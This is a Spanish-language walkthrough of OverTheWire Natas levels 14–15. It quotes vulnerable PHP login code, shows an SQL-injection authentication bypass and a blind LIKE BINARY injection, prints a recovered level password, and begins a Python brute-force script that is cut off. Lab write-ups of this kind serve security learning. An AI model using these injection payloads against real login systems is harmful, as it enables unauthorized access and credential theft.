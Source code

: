 ~~~
    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else 
~~~

el inicio de sesión es vulnerable a un ataque de inyección SQL
~~~
SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"
SELECT * from users where username = "username" and password = "password"
SELECT * from users where username = ""="" and password = ""=""
~~~
la contraseña es: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J 

# Natas15
inyección SQL a ciegas
~~~
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else 
~~~
utilizamos:

~~~
SELECT * from users where username = "natas16" and password LIKE BINARY "a%"
~~~
utilizamos fuerza bruta con brute.py
~~~
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/index.php'
trueStr = 'This user exists.'

r = requests.get(target, verify=False)

~~~